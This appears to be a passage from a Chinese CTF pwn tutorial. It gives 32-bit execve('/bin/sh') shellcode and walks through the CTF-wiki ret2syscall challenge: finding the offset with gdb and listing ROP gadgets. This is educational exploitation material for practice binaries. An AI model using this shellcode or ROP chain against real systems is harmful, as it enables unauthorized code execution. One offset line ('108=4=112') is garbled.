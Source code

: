 32位代码：

```
xor ecx,ecx
xor edx,edx
xor ebx,ebx 
push ebx
push 0x68732f2f
push 0x6e69622f
mov ebx,esp
xor eax,eax
push 11
pop eax
int 0x80
```

参考文档：https://www.cnblogs.com/ZIKH26/articles/15845766.html

但这样的直接插入shell调用函数的方式只适用于NX保护未开启的程序，如果NX enabled该怎么办呢？

#### Shellcode-ret2syscall

##### CTF-wiki ret2syscall

首先checksec检查保护类型，发现NX保护打开

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404151159350.png)

在gets()函数处下断点（b gets)，直接r调试：

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404151159351.png)

输入finish后再随意输入一些字符，然后再次回车，此时发现esp地址为0xffffcfcc,ebp地址为0xffffd038，相减后地址差为108（栈长度为108），因为为32位文件，所以需要覆盖的地址为108=4=112

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404151159352.png)

在前文的手搓shellcode部分，我们已经知道需要execve函数来构造shell从的。此时就需要gadgets。eax对应execve函数的系统调用号0xb，ebx对应/bin/sh的地址，ecx和edx全为0，这些参数需要自行寻找。

该题中各题gadgets如下：

```
EAX：
 ret2syscall ROPgadget --binary rop  --only 'pop|ret' | grep 'eax'
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
EBX+ECX+EDX:
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
/bin/sh:
0x080be408 : /bin/sh
int 0x80:
0x08049421 : int 0x80
0x080938fe : int 0xbb
0x080869b5 : int 0xf6
0x0807b4d4 : int 0xfc
```
